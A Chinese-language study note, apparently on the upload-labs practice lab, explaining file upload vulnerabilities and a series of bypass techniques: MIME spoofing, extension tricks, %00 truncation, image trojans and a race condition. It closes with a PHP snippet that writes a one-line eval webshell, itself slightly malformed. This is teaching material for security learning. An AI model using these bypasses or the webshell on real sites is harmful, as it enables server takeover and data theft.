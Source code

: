 # 文件上传漏洞

## 上传风险处

 网站WEB应用都有一些文件上传功能，比如文档、图片、头像、视频上传，当上传功能的实现代码没有严格校验上传文件的后缀和文件类型时，就可以上传任意文件甚至是可执行文件后门。

1. 注册修改个人信息处（上传头像）
2. 敏感身份认证处（身份证照片，银行卡等）
3. 订单评价处（上传商品图片）
4. 朋友圈空间（照片上传）
5. 所有能上传文件处

## 危害

恶意文件传递给解释器去执行，之后就可以在服务器上执行恶意代码，进行数据库执行、服务器文件管理，服务器命令执行等恶意操作。根据网站使用及可解析的程序脚本不同，可以上传的恶意脚本可以是PHP、ASP、JSP、ASPX文件。

1. 获取服务器的wedshell权限

   上传下载

   托库

   执行系统命令

   挂黑

2. 利用方式

   一句话马+webshell工具

   上传大马

再利用上传漏洞时先判断开发语言，同时找到上传的文件，利用前端和抓包的方式查看返回路径（绝对路径，或相对路径后进行拼接）

## 文件上传的绕过脑图

![](/Typora\typora-user-images/image-20240930161121193.png)

## 如何判断上传漏洞类型?

![image-20240930161250374](/typora-user-images/image-20240930161250374.png)

## 文件上传前端检测绕过

> 前端经过javascript进行验证，不和服务器进行交互

​	通过删除对应的js代码，（可能将传）

​	通过抓包进行修改来绕过：由于文件的校验出现在前端，数据包传到数据库时进行修改即可。

### 0x01、本地JS绕过

- 首先我们将上传文件后缀由php➡jpg
- 通过Burp抓包将jpg➡php

![image-20240930161323705](/typora-user-images/image-20240930161323705.png)

## 文件上传mime类型检测绕过

不同的文件后缀对应的mime类型不同

``Content-Tepy类型扩展``
![](/typora-user-images/image-20240930161354700.png)

### 操作方式

​	由于数据传包后进行mime类型的判断，所以只需要修改mime类型就可以进行绕过。

![](/typora-user-images/image-20240930145714448.png)



### 0x02、MIME验证绕过(Content-Type)

- 首先我们上传webshell时提示，**文件类型不正确**
- ![image-20240930161441972](/typora-user-images/image-20240930161441972.png)
- 将Content-Tepy 由application/octet-stream
  改为 image/png 成功绕过
- ![](/typora-user-images/image-20240930161513230.png)
  ![](/typora-user-images/image-20240930161524276.png)
- 上传成功

![](/typora-user-images/image-20240930161539074.png)

## 文件上传黑名单检测绕过

​	构造后缀上传.htaccess进行自定义解析方式将jpg文件当作php进行解析以达到绕过检测。（不常用）

### 0x03、黑名单绕过

- 尝试上传webshell
- ![](/ypora-user-images/image-20240930161553831.png)

可以通过提示或源码可以看出，上传点对后缀做了黑名单限制
![](/typora-user-images/image-20240930161603241.png)
因为是php，我们尝试使用php5等绕过黑名单验证
![](/typora-user-images/image-20240930161612878.png)
后缀绕过拓展
![](/typora-user-images/image-20240930161630389.png)

## 文件上传其他的绕过方式

### 0x04、大小写绕过

**大小写过滤原理：windows对大小写不敏感，linux对大小写敏感**
将文件后缀名改成大写，成功上传。
![](/typora-user-images/image-20240930161652059.png)

### 0x05、空格绕过

**原理:windows等系统下，文件后缀加空格命名之后是默认自动删除空格。查看网站源代码发现过滤了大小写，没用过滤空格。**

在php后缀添加空格 成功绕过
![image-20240930161705499](/typora-user-images/image-20240930161705499.png)

### 0x06、点绕过

**原理:同空格绕过原理一样，主要原因是windows等系统默认删除文件后缀的.和空格，查看网站源码发现，没有过滤点**。
在文件后缀添加个”.“成功绕过
![](/typora-user-images/image-20240930161715896.png)

### 0x07、双写绕过

**原理:查看源码发现，没有过滤点，空格，大写等，估计这种不是放在windows下的，这里可以用点大写空格:$DATA等绕过，不过这里的目的不是这个，是让学习双写绕过，看源码发现str_ireplace这个函数将php，php5，php4等后缀变成空格，且只执行了一次，所以可以尝试构造文件后缀为pphphp绕过。**
绕过姿势:上传文件后缀为pphphp的文件，发现上传成功，
![image-20240930161724686](/typora-user-images/image-20240930161724686.png)

### 0x08、%00截断

**原理:查看源码发现使用了白名单，只允许jpg，png，gif文件的上传，所以前面使用的方法都不适用，然后我们发现路径img_path函数是让文件位置(save_path)加时间随机数(rand)的方法生成文件位置和文件名称,所以这里我们可以尝试在save_path的地方使用%00的方法截断后面的语句，burpsuite抓包发现，是可以更改save_path的，不过此方法有使用的限制。**

**使用限制:
1、php版本小于5.3.4
2、php.ini的magic_quotes_gpc为OFF状态 3、路径可控 **
(magic_quotes_gpc)函数的的底层实现是类似c语言，所以可以%00截断
![](/typora-user-images/image-20240930161745975.png)
**move_uploaded_file遇到\x00字符后会截断路径名，在实现上存在安全漏洞**
绕过姿势：

(get传输):上传php文件，burpsuite抓包，修改save_path如图所示，发现上传成功
![image-20240930161801736](/typora-user-images/image-20240930161801736.png)
YJ连接成功
![](/typora-user-images/image-20240930161814956.png)

### 0x09、图片木马

**查看源码：采用白名单限制上传的只能是图片，故考虑图片木马**
![](/typora-user-images/image-20240930161823126.png)
那我们要制作张php图片马
copy 1.png/b + 2.php/a 3.jpg 上传
![image-20240930161833396](/typora-user-images/image-20240930161833396.png)
上传成功，需要配合文件包含利用
![](/typora-user-images/image-20240930161842127.png)

```shell
#图片马的方式
1.单纯使用白名单
2.使用二次渲染的方式
	绕过方式，正常上传图片，下载上传的图片与原图片进行对比，查看渲染位置，在未进行渲染的地方进行一句话马的插入

```



### 0x10、竞争条件

查看源码：发现上传的文件先被存储在服务器，然后进行判断，如果不是jpg png gif 则unlik()删掉，是的话重命名

![](/typora-user-images/image-20240930161857388.png)
绕过姿势：在判断删除前，进行访问，竞争时间
shell.php 如下，当然也可写其他木马或者生成木马的php文件，上传用burpsuite抓包，当然可以写脚本![](/typora-user-images/image-20240930161916505.png)
![](/typora-user-images/image-20240930161928288.png)
绕后构造访问连接：http://127.0.0.1/upload-labs-master/upload/shell.php 用burpsuite抓包发送和上传一起开始 如何不行可以尝试线程调大点，或者写脚本
![](/typora-user-images/image-20240930161951459.png)

```shell
#创建文件,使用函数以写入的方式创建，test.php并写入一句话马。
<?php
$f = fopen("test.php","w")fputs($f,'<?php @eval($ PoST["cmd"]);')
?>
```

